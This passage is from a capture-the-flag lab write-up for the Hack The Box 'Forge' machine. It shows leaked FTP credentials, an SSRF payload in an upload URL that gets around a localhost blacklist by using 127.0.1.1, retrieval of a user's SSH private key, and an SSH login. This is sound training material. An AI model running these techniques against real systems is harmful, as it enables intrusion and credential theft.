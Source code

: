 ```console
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>                                                     
```
We now have credentials for the ftp service, however we can't use them to login since the port is filtered. However, ftp services can also be accessed through most browsers with the format `ftp://FTP_Username:FTP_Password@Host`. We can use the upload functionality described above to upload the contents of the ftp directory. However, if we attempt to to use the url `http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.0.0.1`, we get told it contains a blacklisted adress, most likely 127.0.0.1. If we use another url like `http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.0.1.1` we get through though. 
```
┌──(bitis㉿workstation)-[~/htb/Machines/Forge]
└─$ curl http://forge.htb/uploads/06EuoQwcl1WLefV037u5
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 1000     1000           33 Jun 22 18:30 user.txt
```
We now have access to the user users home directory. To get a foothold on the system we can read the contents of their `.ssh` folder to get their ssh key. 
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Forge]
└─$ curl http://forge.htb/uploads/55nxaE6PJgCaI3jCd5kG
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtHR3
rnxHouv4/l1pO2njPf5GbjVHAsMwJDXmDNjaqZfO9OYC7K7hr7FV6xlUWThwcKo0hIOVuE
7Jh1d+jfpDYYXqON5r6DzODI5WMwLKl9n5rbtFko3xaLewkHYTE2YY3uvVppxsnCvJ/6uk
r6p7bzcRygYrTyEAWg5gORfsqhC3HaoOxXiXgGzTWyXtf2o4zmNhstfdgWWBpEfbgFgZ3D
WJ+u2z/VObp0IIKEfsgX+cWXQUt8RJAnKgTUjGAmfNRL9nJxomYHlySQz2xL4UYXXzXr8G
mL6X0+nKrRglaNFdC0ykLTGsiGs1+bc6jJiD1ESiebAS/ZLATTsaH46IE/vv9XOJ05qEXR
...
wS5q+66leUP0KZrDdow0s77QD+86dDjoq4fMRLl4yPfWOsxEkg90rvOr3Z9ga1jPCSFNAb
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgNS3/g1/Fpd52DDziDOAIfORntwkuiQSlg63hF3vadCAV3KIVLtBONXH2
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```
We can now login on the forge machine. 
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Forge]
└─$ ssh -i user_sshkey user@forge.htb         
The authenticity of host 'forge.htb (10.129.84.126)' can't be established.
ED25519 key fingerprint is SHA256:ezqn5XF0Y3fAiyCDw46VNabU1GKFK0kgYALpeaUmr+o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
user@forge:~$ 
```
